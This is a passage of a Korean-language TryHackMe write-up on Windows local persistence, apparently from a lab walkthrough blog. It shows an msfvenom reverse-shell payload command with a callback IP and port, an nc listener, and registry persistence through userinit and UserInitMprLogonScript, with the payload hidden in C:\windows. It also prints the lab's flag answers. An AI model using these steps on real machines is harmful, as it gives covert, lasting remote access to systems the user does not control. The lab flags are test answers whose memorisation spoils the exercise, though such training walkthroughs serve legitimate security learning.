 이 방에서는 플래그를 얻기 위해 userinit를 사용해야 합니다. 그러나 두 가지 방법 모두 동일합니다.

다시 한 번 msfvenom을 사용하여 페이로드를 생성할 것입니다:

```js
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.213.167 LPORT=4452 -f exe -o revshell.exe
```

<div class="content-ad"></div>

우리는 Python3를 사용하여 페이로드를 전송할 것입니다:

보시다시피, 처음에 포트를 포함시키는 것을 잊었습니다 — 쉽게 수정할 수 있었어요!

피해자가 인지하기 어렵도록 C:\windows로 페이로드를 이동시킬 거예요. 실제로는 위치를 더 은폐할 것이지만, 이 연습을 위해서는 그 정도만 이해하는 것이 적당합니다.

<img src="/assets/img/2024-06-19-WindowsLocalPersistenceTechniquesTryHackMe_77.png" />

<div class="content-ad"></div>

이제 레지스트리 대상 위치를 조정할 것입니다. 이 경우에는 명령을 대체하는 것이 아니라 userinit에 추가 지시사항을 추가하는 것입니다:

![이미지](/assets/img/2024-06-19-WindowsLocalPersistenceTechniquesTryHackMe_78.png)

그런 다음 리스너를 설정하고 (nc -lvp 4452), 로그아웃하고 다시 로그인한 후 쉘을 기다립니다:

![이미지](/assets/img/2024-06-19-WindowsLocalPersistenceTechniquesTryHackMe_79.png)

<div class="content-ad"></div>

빙고. 이제 플래그를 획득해야 해요.

![이미지](/assets/img/2024-06-19-WindowsLocalPersistenceTechniquesTryHackMe_80.png)

정답: THM'I_INSIST_GO_FIRST'

# 플래그 13

<div class="content-ad"></div>

이전에 사용한 페이로드를 그대로 사용하겠습니다. 문제 없어야 하고, 이번에는 더블 체크했어요! 이전 플래그에 대한 변경사항도 초기화했습니다.

사용자 프로필을 로딩하는 동안, userinit이 'UserInitMprLogonScript'를 찾습니다. 이 변수는 기본적으로 설정되지 않았기 때문에 우리는 여기에서 이점을 취할 수 있어요.

이 스크립트는 현재 사용자를 위한 것이므로 현재 사용자 레지스트리를 악용해야 합니다:

![이미지](/assets/img/2024-06-19-WindowsLocalPersistenceTechniquesTryHackMe_81.png)

<div class="content-ad"></div>

그럼 간단히 로그아웃하고 다시 로그인하면 이제 끝!

![이미지](/assets/img/2024-06-19-WindowsLocalPersistenceTechniquesTryHackMe_82.png)

쉽죠!

답변: THM'USER_TRIGGERED_PERSISTENCE_FTW'

